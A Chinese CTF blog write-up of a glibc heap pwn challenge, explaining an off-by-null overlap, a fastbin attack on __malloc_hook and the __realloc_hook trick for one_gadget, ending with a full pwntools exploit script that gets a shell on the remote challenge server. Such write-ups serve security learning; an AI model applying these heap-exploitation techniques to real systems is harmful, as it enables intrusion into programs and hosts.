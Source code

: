 ```yaml
---
title: 第一篇文章以及关于昨天做的一道题
date: 2019-07-15 13:50:58
tags: "pwn"
cover: /img/Zo7Sjx.png
---
```

~~为了证明这个暑假不是全在摸鱼~~  
昨天做了道题，不是很难，但是过程一波三折，并且学到了一些新姿势，就突然很想把它记录下来，就干脆搭了个博客。   
以下正文
***
![](/img/ZorKFU.png)
# 分析
运行程序可以发现这是一道2.27下的题目，并且没有Edit功能  
![](/img/Zorr6A.png)  
拖到IDA里看看，没有发现UAF  
![](/img/Zorx1J.png)  
在add中发现了offbynull，然后事情就变得非常简单了，chunk shrink造overlap，又是2.27，很容易实现overlap  
脚本写着倒是挺快的，本地也打下来了，但是在服务器那边   
![](/img/ZosWHx.png)   
????  
我好像全程没有碰过fastbin吧，这个error是怎么回事？又看了一下leak出的libc，很显然也不对，事情开始变得大条了起来。  
于是我拿报错里的偏移算了一下，发现这他妈是个2.23的libc，这个时候就只能说攻防世界该喷了。    
不过2.23照做，不过是fastbin改起来要小心一些，很快我就实现了对mallochook的任意写了，但是
onegadget全都不能用，事情再一次大条了起来。  
然后下面则是新姿势。  
# 新姿势
在mallochook前还有另一个指针reallochook，当我们调用realloc时  
![](/img/ZocSXj.png)  
会push一堆东西进去，如果reallochook不为空，就再pop出来，跳转过去。  
那么我们有了新的劫持控制流的方式，将reallochook写为onegadget，将malllochook写为realloc中间，就可以实现对栈的深度控制，从而满足onegadget的需要。    
老实说不是什么困难的利用方式，相比srop，iofile简单实用太多了，但是确实是第一次听说。   
最后的脚本
```py
from pwn import *
# r = process('./timu')
r = remote('111.198.29.45', 57897)
# context.log_level = 'debug'


def add(size, s):
    r.sendlineafter('Your choice :', '1')
    r.sendlineafter('Size: ', str(size))
    r.sendlineafter('Data: ', s)


def delete(index):
    r.sendlineafter('Your choice :', '2')
    r.sendlineafter('Index: ', str(index))


add(0x510, 'a')
add(0x28, 'a')
add(0x5f8, 'a')
add(0x30, '/bin/sh')
delete(0)
delete(1)
add(0x28, 'a'*0x20+p64(0x550))
delete(2)
add(0x510, 'big')
r.sendlineafter('Your choice :', '3')
r.recvuntil('0 : ')
s = r.recv(6)
print s
libc = u64(s.ljust(8, '\0'))-0x3c4b78
print hex(libc)
mallochook = libc+0x3c4b10
delete(1)
# add(0x600,'a'*0x510+p64(0)+p64())
add(0x500, 'gg')
add(0x78, p64(0)+p64(0x71)+'ggggg')
delete(0)
delete(2)
add(0x78, p64(0)+p64(0x71)+p64(mallochook-0x23))
add(0x68, 'a')
add(0x68, 'a'*0xb+p64(libc+0x4526a)+p64(libc+0x846C2))

r.sendlineafter('Your choice :', '1')
r.sendlineafter('Size: ', '0')
r.interactive()
```